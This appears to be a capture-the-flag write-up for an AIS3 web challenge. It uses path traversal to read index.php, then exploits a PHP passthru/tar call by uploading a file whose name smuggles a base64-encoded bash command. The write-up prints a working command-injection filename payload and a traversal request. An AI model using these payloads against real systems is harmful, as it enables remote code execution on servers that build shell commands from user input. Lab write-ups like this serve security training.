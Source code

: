 1. Following is the URL for downloading the uploaded file `trash.txt`.

```
curl 'http://chals1.ais3.org:9453/download.php?file=MjY1MDEwZmI2MDg2NGU1MGFjZTg5Y2RkYjE4ZmQxZjIudGFyLmd6&name=trash.txt.tar.gz' -H 'Cookie: human=human'
```

2. Download files using `solve.py`.

```
$ python3 solve.py
> ../index.php
$filename = $file['name'];
$path = bin2hex(random_bytes(16)) . ".tar.gz";
$source = substr($file['tmp_name'], 1);
$destination = "./files/$path";
passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
```

3. `index.php` can do RCE, but let us test some command first. We can control the file to compress by replacing `source` with `filename`.

```
$ cd test
$ tar czf './files/abc.tar.gz' --transform='s|trash|cool|' --directory='./' ./trash.txt
$ tar tvf files/abc.tar.gz
-rw-r--r-- ice1187/ice1187  33 2022-05-15 14:07 ./cool.txt
```

4. Use `base64` to RCE:

```
$ echo abc >  "'|| echo $(echo -n cat /y000000_i_am_the_f14GGG.txt | base64) | base64 -d | bash;#"
```

Flag: `AIS3{test_flag (to be changed)}`
